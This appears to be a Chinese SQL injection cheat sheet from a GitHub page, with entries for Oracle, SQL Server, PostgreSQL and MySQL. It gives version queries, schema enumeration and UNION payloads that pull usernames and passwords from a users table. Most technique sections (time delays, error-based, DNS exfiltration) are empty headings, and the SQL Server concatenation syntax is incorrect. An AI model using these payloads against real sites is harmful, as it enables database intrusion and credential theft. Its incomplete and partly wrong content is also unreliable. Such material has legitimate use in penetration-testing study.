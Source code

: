 # ✔️ SQL注入CheatSheet

## Oracle

### 字符串连接

```sql
// Some code
'aaa' || 'bbb'
```

### 截取字符串

```sql
// Some code
SUBSTR('asdsfsdgf', 4, 2)
```

### 评论

### 数据库类型和版本查询

```sql
// Some code
SELECT * FROM v$version
SELECT banner FROM v$version
SELECT version FROM v$instance
```

### 查询数据库内容

```sql
// 列出数据库中所有的表
SELECT * FROM all_tables
// 列出数据库中某个表中的所有列
SELECT * FROM all_tab_columns WHERE table_name = '表名'
```

### 条件错误

### 通过错误消息提取数据

### 堆叠查询

### 时间延迟

### 有条件的时间延迟

### DNS查询

### DNS查询和数据泄露





## Microsoft

### 字符串连接

```sql
// Some code
'aaa' || 'bbb'
```

### 截取字符串

```sql
// Some code
SUBSTRING('fcsasff', 4, 2)
```

### 评论

### 数据库类型和版本查询

```sql
// Some code
SELECT @@version
' UNION SELECT @@version--
```

### 查询数据库内容

```sql
// 列出数据库中所有的表
SELECT * FROM information_schema.tables
// 列出数据库中某个表中的所有列
SELECT * FROM information_schema.columns WHERE table_name = '表名'
// 实例
'+UNION+SELECT+column_name,NULL+FROM+information_schema.columns+WHERE+table_name='users'--
'+UNION+SELECT+username,password+FROM+users--

```

### 条件错误

### 通过错误消息提取数据

### 堆叠查询

### 时间延迟

### 有条件的时间延迟

### DNS查询

### DNS查询和数据泄露



## PostgreSQL

### 字符串连接

```sql
// Some code
'aaa' || 'bbb'
```

### 截取字符串

```sql
// Some code
SUBSTRING('sdaggrfsgrh', 4, 2)
```

### 评论

### 数据库类型和版本查询

```sql
// Some code
SELECT version()
```

### 查询数据库内容

```sql
// 列出数据库中所有的表
SELECT * FROM information_schema.tables
// 列出数据库中某个表中的所有列
SELECT * FROM information_schema.columns WHERE table_name = '表名'
// 实例
'+UNION+SELECT+column_name,NULL+FROM+information_schema.columns+WHERE+table_name='users'--
'+UNION+SELECT+username,password+FROM+users--
```

### 条件错误

### 通过错误消息提取数据

### 堆叠查询

### 时间延迟

### 有条件的时间延迟

### DNS查询

### DNS查询和数据泄露



## MySQL

### 字符串连接

```sql
// 字符串之间是有空格的
'aaa' 'bbb'
CONCAT('aaa','bbb')
```

### 截取字符串

```sql
// Some code
SUBSTRING('afdgghtr', 4, 2)
```

### 评论

### 数据库类型和版本查询

```sql
// Some code
SELECT @@version
' UNION SELECT @@version--
```

### 查询数据库内容

```sql
// 列出数据库中所有的表
SELECT * FROM information_schema.tables
// 列出数据库中某个表中的所有列
SELECT * FROM information_schema.columns WHERE table_name = '表名'
// 实例
'+UNION+SELECT+column_name,NULL+FROM+information_schema.columns+WHERE+table_name='users'--
'+UNION+SELECT+username,password+FROM+users--
```

### 条件错误

### 通过错误消息提取数据

### 堆叠查询

### 时间延迟

### 有条件的时间延迟

### DNS查询

### DNS查询和数据泄露

